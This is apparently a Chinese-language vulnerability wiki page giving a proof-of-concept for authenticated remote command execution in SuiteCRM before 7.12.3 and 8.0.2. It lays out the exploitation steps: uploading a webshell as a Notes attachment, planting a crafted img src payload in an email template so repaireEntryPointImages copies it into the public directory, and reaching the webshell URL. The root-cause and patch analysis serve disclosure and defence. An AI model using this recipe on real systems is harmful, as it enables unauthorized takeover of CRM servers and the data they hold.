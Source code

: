 # SuiteCRM远程命令执行漏洞利用

## 利用条件：

- < 7.12.3
- < 8.0.2

## 利用方法：

### 步骤一：用户登录，进入`Notes`功能上传`Notes`附件，返回ID：

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/OA产品漏洞/SuiteCRM/img/返回ID.png)

### 步骤二：检查附件内容

```bash
/index.php?entryPoint=download&type=Notes&id=<note_id>
```

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/OA产品漏洞/SuiteCRM/img/检查附件内容.png)

### 步骤三：进入`Email-Templates`功能，新建邮件模板并篡改`body_html`和`body`参数

```bash
<img src="http://<ip>/index.php?entryPoint=download&type=Notes&id=<note_id>&filename=poc.php"/>
```

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/OA产品漏洞/SuiteCRM/img/邮件模版body_html参数.png)

### 步骤四：保存后webshell被写入：

```bash
http://<ip>/legacy/public/<note_id>.php
```

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/OA产品漏洞/SuiteCRM/img/webshell写入.png)

## 漏洞原理：

1. 用户通过`Notes`上传webshell；
2. SuiteCRM系统`Notes`模块将webshell以UUID的方式存储在`upload`目录；
3. 验证能否通过`/index.php?entryPoint=download&type=Notes&id=<note_id>`下载附件；
4. 创建一个电子邮件模板，模板html源码中包含类似于`<img src='localhost/index.php?entryPoint=download&type=Notes&id=UUID&filename=poc.php'`的匹配项；
5. 保存或者重新加载邮件模板，SuiteCRM执行`repaireEntryPointImages`将webshell复制到`public`目录；
6. 通过`http://***/public/UUID.php`执行命令。

## 漏洞分析：

SuiteCRM软件支持用户定义邮件模板。补丁修复位于`modules\EmailTemplates\EmailTemplate.php`：

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/OA产品漏洞/SuiteCRM/img/补丁修复.png)

`repaireEntryPointImages`读取`html页面`中解析`<img src=`标签，提取文件后缀`fileExtension`和`id`，随后调用`makePublicImage`函数将`upload`目录文件写入到`public`，且没有对后缀名做检查。提取文件的URL格式为：

```bash
/index.php?entryPoint=download&type=Notes&id=UUID&filename=FILENAME
```

经过身份认证的用户可以通过`/index.php?entryPoint=download&type=Notes&id=<note-id>`链接Notes模块中的附件：

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/OA产品漏洞/SuiteCRM/img/链接附件代码.png)

`repaireEntryPointImages`由`retrieve`函数调用，在用户保存和访问电子邮件模板时都会触发该功能：

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/OA产品漏洞/SuiteCRM/img/功能触发代码.png)

SuiteCRM允许用户创建邮件模板，并支持添加附件，实际上以uuid的方式存储在本地文件系统：

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/OA产品漏洞/SuiteCRM/img/创建邮件模版.png)

同时用户可以将任意附件添加到邮件模板，但不能被php解析，但是利用`repaireEntryPointImages`函数，如果邮件正文中包含类似内容如下：

```bash
img src='localhost/index.php?entryPoint=download&type=Notes&id=UUID&filename=poc.php'
```

`Notes`模块下的附件就可以被复制写入到`public`目录。

